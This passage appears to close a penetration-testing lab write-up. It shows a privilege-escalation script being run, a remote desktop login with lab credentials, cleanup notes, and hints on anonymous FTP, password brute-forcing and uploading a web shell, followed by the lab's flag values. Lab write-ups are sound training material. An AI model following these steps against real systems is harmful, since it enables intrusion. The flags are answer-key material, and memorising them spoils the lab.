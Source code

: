 ```bash
cd c:\wamp\www
cscript 15589.wsf
net user

# output
User accounts for \\LIVDA

-------------------------------------------------------------------------------
Administrator            apache                   Guest                    
victor                   
The command completed successfully.
```

```bash
rdesktop 192.168.51.46 # victor:password
```

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* Nmap
* Patator
* Intruder from Burp Suite

## Hints
* Be sure to scan all TCP ports. FTP service allows anonymous login. Enumerate FTP contents and see what you can find.
* Find another FTP user and brute-force their password. Check what is in their directory. You can upload a shell and trigger it in a web app.
* Enumerate the operating system version. There is a local privilege escalation exploit for it. 

## Flags
* local.txt = 001b4a6ab787cbea4b0da63d9fdd0e35
* proof.txt = 51e6eb61669a4bcac11a49219dcf71db

## Lessons Learned
* curl: use + where there are spaces and escape (with \) if there is a slash at the end of your query.
* curl: to supply Basic Auth, use -u username:password. ex: curl -u admin:password http://localhost/login.php
* Always keep your privesc checks simple, this exploit could have been found by researching the OS version. Follow your PWK guide.
* Use cscript to execute .wsf files.
